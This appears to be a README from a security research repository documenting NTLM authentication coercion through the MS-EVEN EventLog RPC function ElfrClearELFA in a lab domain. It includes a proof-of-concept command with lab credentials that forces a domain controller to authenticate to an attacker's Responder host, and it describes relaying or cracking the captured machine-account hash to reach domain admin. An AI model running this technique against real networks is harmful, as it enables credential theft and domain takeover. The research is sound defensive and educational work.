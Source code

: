 # MS-EVEN - Remote call to ElfrClearELFA (opnum 12)

## Summary

+ **Protocol**: [[MS-EVEN]: EventLog Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f)

+ **Protocol UUID**: 82273fdc-e32a-18c3-3f78-827929dc23ea

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `\PIPE\eventlog`

+ **Function name**: [`ElfrClearELFA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/a982c2f3-66c5-49e2-90a8-c7665470b77b)

+ **Function operation number**: `12`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\eventlog` and bind to the desired [`MS-EVEN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) protocol (with uuid `82273fdc-e32a-18c3-3f78-827929dc23ea` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-EVEN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\eventlog` This pipe is connected to the protocol [[MS-EVEN]: EventLog Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) and allows to call RPC functions of this protocol. We will then call the remote [`ElfrClearELFA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/a982c2f3-66c5-49e2-90a8-c7665470b77b) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
ElfrClearELFA('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NTSTATUS ElfrClearELFA(
   [in] IELF_HANDLE LogHandle,
   [in, unique] PRPC_STRING BackupFileName
 );
```

## References

+ Documentation of protocol [MS-EVEN]: EventLog Remoting Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f

+ Documentation of function `ElfrClearELFA`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/a982c2f3-66c5-49e2-90a8-c7665470b77b